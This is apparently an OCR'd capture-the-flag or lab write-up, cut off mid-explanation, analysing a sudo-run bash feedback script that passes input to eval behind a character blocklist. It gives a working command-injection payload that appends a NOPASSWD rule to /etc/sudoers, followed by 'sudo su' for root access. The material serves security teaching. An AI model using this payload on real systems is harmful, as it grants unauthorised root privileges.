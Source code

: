 **Script Overview:**

- **User Interaction:** The script prompts the user for feedback.
- **Input Validation:** It checks for prohibited characters: `` ` ``, `(`, `{`, `}`, `?`, `!`, `\`.
- **Execution of Input:** Uses `eval` to echo the feedback.
- **Logging:** Appends the feedback to `/var/log/feedback.txt`.

**Vulnerability Identified:**

- **Use of `eval`:** Dangerous when used with user input, even with some characters restricted.
- **Command Injection Possibility:** The lack of restriction on certain characters (`>`, `/`) allows for command injection.

**Exploitation Method 1: Modifying `/etc/sudoers`**

**Steps:**

1. **Run the Script with Sudo:**

   ```bash
   sudo /opt/NewComponent/feedback.sh
   ```

2. **Provide Malicious Input:**

   - Input:

     ```
     deku ALL=NOPASSWD: ALL >> /etc/sudoers
     ```

     ![Evidence of payload and privilege escalation method 1](28.png)

3. **Gain Root Access:**

   - Switch to root without a password:

     ```bash
     sudo su
     ```

**Explanation:**
